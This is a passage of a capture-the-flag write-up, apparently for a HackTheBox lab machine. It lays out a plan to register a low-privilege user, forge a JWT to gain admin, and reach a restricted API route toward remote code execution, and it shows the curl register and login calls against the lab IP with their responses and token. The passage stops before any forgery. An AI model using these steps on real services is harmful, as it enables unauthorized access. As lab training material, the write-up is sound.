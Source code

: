 ```javascript=


module.exports.registerValidation = registerValidation
module.exports.loginValidation = loginValidation
```
Also if we can remember, in the website on the API documentation, we had a register user module

![](https://i.imgur.com/KLPEgAy.png)

With all this info in place, we can come up with an attack plan that will enable us to get an RCE to the machine.
our attack plan will be:
* Create a new low-level user on the system.
* Modify the JWT to be the admin
* Access restricted endpoints
These restricted endpoints, are specified in the API documentation eg the ```/api/priv``` route, which when we try accessing, we get ```Access denied```
![](https://i.imgur.com/Olux1c4.png)
## Abusing the API
### Creating a new user.
Looking at the documentation under the user registration, we can see that the user email must contain ```@dasith.works``` to be valid.
```
┌─[✗]─[r00t@parrot]─[~/Downloads/htb/secret]
└──╼ $curl -i -X POST \
> -H 'Content-Type: application/json' \
> -d '{"name":"testuser", "email":"testuser@dasith.works", "password":"testing123"}' \
> http://10.10.11.120/api/user/register
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 18 Dec 2021 10:52:23 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 19
Connection: keep-alive
X-Powered-By: Express
ETag: W/"13-DRVe0zLZCaZWlWTdrfBu0+1b9f4"

{"user":"testuser"}
```
we can see that we have successfuly created a user ```testuser```. Now its time to login and try locate our JWT validation and modify it.

```
┌─[r00t@parrot]─[~/Downloads/htb/secret]
└──╼ $curl -i -X POST -H 'Content-Type: application/json' -d '{"email":"testuser@dasith.works", "password":"testing123"}' http://10.10.11.120/api/user/login
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 18 Dec 2021 11:10:12 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 216
Connection: keep-alive
X-Powered-By: Express
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJkYmQ2N2RiZGE1MjA0NjgwNDFiNzIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzOTgyNTgxMn0.SL6SIE1fbWwu7i1Py0aCHCwZESwQvofoyg6SoeoflsI
ETag: W/"d8-1FM8RUhJqjPvSAQlmqBbGwRLvlI"

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJkYmQ2N2RiZGE1MjA0NjgwNDFiNzIiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzOTgyNTgxMn0.SL6SIE1fbWwu7i1Py0aCHCwZESwQvofoyg6SoeoflsI
```